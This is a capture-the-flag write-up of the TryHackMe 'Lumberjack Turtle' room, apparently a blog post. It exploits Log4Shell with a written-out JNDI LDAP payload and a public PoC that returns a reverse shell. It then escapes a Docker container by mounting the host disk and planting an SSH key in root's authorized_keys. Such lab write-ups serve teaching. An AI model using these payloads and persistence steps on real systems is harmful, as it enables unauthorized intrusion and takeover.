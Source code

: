 ```yaml
---
layout: post
title: 'Try Hack Me - VulnNet: Lumberjack Turtle'
disass:
  - url: /assets/img/thm-lumberjackturtle/lumberjackturtle-1.png
    image_path: /assets/img/thm-lumberjackturtle/lumberjackturtle-1.png
    title: description
  - url: /assets/img/thm-lumberjackturtle/lumberjackturtle-2.png
    image_path: /assets/img/thm-lumberjackturtle/lumberjackturtle-2.png
    title: other
categories:
  - tryhackme
slug: hack-lumberjack-turtle
tags:
  - linux
  - java
  - log4shell
  - docker
---
```

## Challenge description

[https://tryhackme.com/room/lumberjackturtle](https://tryhackme.com/room/lumberjackturtle)

![description](/assets/img/thm-lumberjackturtle/lumberjackturtle-1.png "description")

## Reconnaissance / Enumeration

### Port scanning and service identification

```
$ rustscan -a $ip -r 1-65535 -- -A -sC    
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
🌍HACK THE PLANET🌍
[...]
PORT   STATE SERVICE     REASON  VERSION
22/tcp open  ssh         syn-ack OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6a:a1:2d:13:6c:8f:3a:2d:e3:ed:84:f4:c7:bf:20:32 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDCnZPtl8mVLJYrSASHm7OakFUsWHrIN9hsDpkfVuJIrX9yTG0yhqxJI1i8dbI/MrexUGrIGzYbgLpYgKGsH4Q4dxB9bj507KQaTLWXwogdrkCVtP0WuGCo2EPZKorU85EWZAhrefG1Pzj3lAx1IdaxTHIS5zTqEJSZYttPF4BHb2avjKDVfSA+4cLP7ybq0rgohJ7JLG5+1dR/ijrGpaXnfudm/9BVjiKcGMlENS6bQ+a32Fs7wxL5c7RfKoR0CjA+pROXrOj5blQM4CI4wrEdphPZ/900I4DJ+kA6Ga+NJF6donQOmmhjsEEpI6RYcz6n/4ql1bomnyyI+jayyf3t
|   256 1d:ac:5b:d6:7c:0c:7b:5b:d4:fe:e8:fc:a1:6a:df:7a (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBBPkLzZd9EQTP/90Y/G1/CYr+PGrh376Qm6aZTO0HZ7lCZ0dExE834/QZ1vNyQPk4jg1KmS09Mzjz1UWWtUCYLg=
|   256 13:ee:51:78:41:7e:3f:54:3b:9a:24:9b:06:e2:d5:14 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIFdrmxj3Q5Et6BwEm7pC8cz5louqLoEAwNXGHi+3ee+t
80/tcp open  nagios-nsca syn-ack Nagios NSCA
|_http-title: Site doesn't have a title (text/plain;charset=UTF-8).
| http-methods: 
|_  Supported Methods: GET HEAD OPTIONS
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

We have a web server, apparantly nagio ncsa, running on port 80, which is unusual for this service that is normally running on port 5667 and a SSH server on port 22.

### Web Enumeration

There's nothing more than the home page that says :

> *What you doing here? There is nothing for you to C. Grab a cup of java and look deeper.*

After scratching my head for 10-15 minutes I tought about the room description :

> *What do lumberjacks and turtles have to do with this challenge?*
Hack into the machine. Get root.  You'll figure it out.

Lumberjack / Logging / Logs + Turtle / Shell = Log4Shell

So I launched a listener on ldap port (1389) and started fuzzing HTTP headers using Burp Suite. It didn't take long to get a hit, actually it worked on the first try, *accept* header :

![burpfuzz](/assets/img/thm-lumberjackturtle/lumberjackturtle-2.png "burpfuzz")

```
$ nc -lnvp 1389                                                      
listening on [any] 1389 ...
connect to [1.1.1.1] from (UNKNOWN) [10.10.105.211] 35244
0
 `�^C
```

It means we should be able to exploit this and get a foothold on the target

## Exploitation

To exploit the log4shell vulnerability, I used a [POC script by github's kozmer](https://github.com/kozmer/log4j-shell-poc.git)

[instructions source](https://www.hackingarticles.in/a-detailed-guide-on-log4j-penetration-testing/)

```
$ git clone https://github.com/kozmer/log4j-shell-poc
Cloning into 'log4j-shell-poc'...
remote: Enumerating objects: 205, done.
remote: Counting objects: 100% (202/202), done.
remote: Compressing objects: 100% (119/119), done.
remote: Total 205 (delta 74), reused 167 (delta 65), pack-reused 3
Receiving objects: 100% (205/205), 40.36 MiB | 73.67 MiB/s, done.
Resolving deltas: 100% (74/74), done.
$ cd log4j-shell-poc && wget https://mirrors.huaweicloud.com/java/jdk/8u202-b08/jdk-8u202-linux-x64.tar.gz
& tar xvzf jdk-8u202-linux-x64.tar.gz
& sudo mv jdk1.8.0_202 /usr/bin/

# we need to edit the script to fit jdk version/path
$ sed -i 's/jdk1.8.0_20/\/usr\/bin\/jdk1.8.0_202/' poc.py
$ python3 poc.py --userip 1.1.1.1 --webport 8000 --lport 4444

[!] CVE: CVE-2021-44228
[!] Github repo: https://github.com/kozmer/log4j-shell-poc

[+] Exploit java class created success
[+] Setting up LDAP server

[+] Send me: ${jndi:ldap://1.1.1.1:1389/a}
[+] Starting Webserver on port 8000 http://0.0.0.0:8000

Listening on 0.0.0.0:1389
```

In another terminal, start a netcat listener on port 4444:

```
 nc -lnvp 4444                                                   
listening on [any] 4444 ...
```

We just need to repeat the request with Burp Suite to get a shell

![burpexploit](/assets/img/thm-lumberjackturtle/lumberjackturtle-3.png "burpexploit")

```
Send LDAP reference result for a redirecting to http://1.1.1.1:8000/Exploit.class
10.10.105.211 - - [24/Jan/2022 03:56:42] "GET /Exploit.class HTTP/1.1" 200 -

connect to [1.1.1.1] from (UNKNOWN) [10.10.105.211] 55104
id && hostname
uid=0(root) gid=0(root) groups=0(root),1(bin),2(daemon),3(sys),4(adm),6(disk),10(wheel),11(floppy),20(dialout),26(tape),27(video)
81fbbf1def70
```

We got a reverse shell on the target as root in what seems to be a docker container. Let's confirm this by checking for .dockerenv file :

```
ls -la /
total 68
drwxr-xr-x    1 root     root          4096 Dec 13 01:26 .
drwxr-xr-x    1 root     root          4096 Dec 13 01:26 ..
-rwxr-xr-x    1 root     root             0 Dec 13 01:25 .dockerenv
```
While we are here, let's get our first flag :

```
ls -la /opt
total 12
drwxr-xr-x    1 root     root          4096 Dec 11 21:04 .
drwxr-xr-x    1 root     root          4096 Dec 13 01:26 ..
-rw-r--r--    1 root     root            19 Dec 11 21:04 .flag1
cat /opt/.flag1
THM{REDACTED}
```

## Container Escape

So we are in a container, we now need to escape !

Let's start by listing disks :

```
ls -la /dev | grep disk
[...]
brw-rw----    1 root     disk      202,   0 Jan 24 01:15 xvda
brw-rw----    1 root     disk      202,   1 Jan 24 01:15 xvda1
brw-rw----    1 root     disk      202,  80 Jan 24 01:15 xvdf
brw-rw----    1 root     disk      202, 112 Jan 24 01:15 xvdh
```

Interesting, let's try to mount those disks :

```
mkdir /mnt/host
mount /dev/xvda1 /mnt/host
ls -la /mnt/host
total 100
drwxr-xr-x   22 root     root          4096 Jan 24 01:14 .
drwxr-xr-x    1 root     root          4096 Jan 24 03:18 ..
drwxr-xr-x    2 root     root          4096 Dec  8 16:04 bin
drwxr-xr-x    3 root     root          4096 Dec  8 16:03 boot
drwxr-xr-x    4 root     root          4096 Dec  8 16:03 dev
drwxr-xr-x   94 root     root          4096 Dec 13 02:21 etc
drwxr-xr-x    3 root     root          4096 Dec 13 01:25 home
lrwxrwxrwx    1 root     root            34 Dec  8 16:02 initrd.img -> boot/initrd.img-4.15.0-163-generic
lrwxrwxrwx    1 root     root            34 Dec  8 16:02 initrd.img.old -> boot/initrd.img-4.15.0-163-generic
drwxr-xr-x   20 root     root          4096 Dec 13 01:24 lib
drwxr-xr-x    2 root     root          4096 Dec  8 15:56 lib64
drwx------    2 root     root         16384 Dec  8 16:05 lost+found
drwxr-xr-x    2 root     root          4096 Dec  8 15:53 media
drwxr-xr-x    2 root     root          4096 Dec  8 15:53 mnt
drwxr-xr-x    3 root     root          4096 Dec 13 01:25 opt
drwxr-xr-x    2 root     root          4096 Apr 24  2018 proc
drwx------    6 root     root          4096 Jan 24 03:19 root
drwxr-xr-x    3 root     root          4096 Dec  8 16:04 run
drwxr-xr-x    2 root     root          4096 Dec 13 01:24 sbin
drwxr-xr-x    2 root     root          4096 Dec  8 15:53 srv
drwxr-xr-x    2 root     root          4096 Apr 24  2018 sys
drwxrwxrwt    8 root     root          4096 Jan 24 03:26 tmp
drwxr-xr-x   12 root     root          4096 Dec 13 01:25 usr
drwxr-xr-x   12 root     root          4096 Dec 13 01:24 var
lrwxrwxrwx    1 root     root            31 Dec  8 16:02 vmlinuz -> boot/vmlinuz-4.15.0-163-generic
lrwxrwxrwx    1 root     root            31 Dec  8 16:02 vmlinuz.old -> boot/vmlinuz-4.15.0-163-generic
```

That is our way out. Let's get ourself a backdoor (more like, let's create ourself a key to the frontdoor) :

```
cat 'ssh-rsa AAAA[....]=' >> /mnt/host/root/.ssh/authorized_keys

$ ssh root@$ip -i ./id_rsa
root@lumberjackturtle:~# id
uid=0(root) gid=0(root) groups=0(root)
```

We're out ! Let's get our last flag :

```
root@lumberjackturtle:~# cat root.txt
Pffft. Come on. Look harder.
root@lumberjackturtle:~# ls -laR
.:
total 36
[...]

/...:
total 12
drwxr-xr-x 2 root root 4096 Dec 13 01:25 .
drwx------ 6 root root 4096 Jan 24 03:19 ..
-r-------- 1 root root   26 Dec 13 01:25 ._fLaG2
root@lumberjackturtle:~# cat .../._fLaG2 
THM{REDACTED}
```

Thanks for reading <3

h3x
